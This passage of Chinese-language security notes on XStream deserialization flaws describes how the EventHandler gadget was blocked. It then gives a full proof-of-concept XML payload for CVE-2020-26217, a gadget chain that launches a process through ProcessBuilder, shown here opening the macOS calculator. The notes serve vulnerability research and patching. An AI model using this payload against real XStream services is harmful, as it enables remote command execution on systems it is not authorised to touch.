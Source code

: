 EventHandler对应的转换器是ReflectionConverter，修复时在ReflectionConverter中禁止了EventHandler。后续则是在SecurityMapper#readClass把EventHandler作为黑名单。
```
public boolean canConvert(Class type) {
    return ((this.type != null && this.type == type) || (this.type == null && type != null && type != eventHandlerType))
        && canAccess(type);
}
```

### CVE-2020-26217
* Affected Version <= 1.4.13
* POC
```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>open</string>
                          <string>/System/Applications/Calculator.app</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
```